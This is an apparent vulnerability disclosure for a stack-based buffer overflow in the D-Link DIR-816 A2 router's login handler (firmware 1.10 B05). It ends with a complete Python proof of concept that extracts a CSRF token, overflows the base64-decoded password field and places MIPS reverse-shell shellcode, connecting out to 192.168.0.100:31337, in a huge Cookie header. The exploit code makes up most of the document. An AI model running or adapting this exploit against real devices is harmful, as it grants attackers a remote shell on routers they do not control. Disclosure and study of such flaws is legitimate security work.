




# D-Link DIR-816 A2 Stack Overflow

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/formLogin`, the value of parameter `password` is base64 decoded and the result is saved on the stack:



However, there's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:



Moreover, the ASLR is partially open and the heap is at fixed address:



Also the heap has permission `rwx`:



Therefore, we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

## POC

```python
#!/usr/bin/env python

# POC code reference: https://0x3f97.github.io/exploit/2018/05/13/D-Link-DIR-816-A2-CN-router-stack-based-buffer-overflow/

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]

print 'tokenid is %s' % tokenid

# The shellcode would be at 0x48fc18
newRet = '\x18\xfc\x48\x00'

# Reverse shell to 192.168.0.100:31337
# Credit: http://shell-storm.org/shellcode/files/shellcode-860.php
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

# A long password for overflow
pl1 = 'a'*160 + newRet*2

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pl2 = ('tokenid=%s&username=abcd&password=' % tokenid) + b64e(pl1)

payload = "POST /goform/formLogin " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pl2)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pl2

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
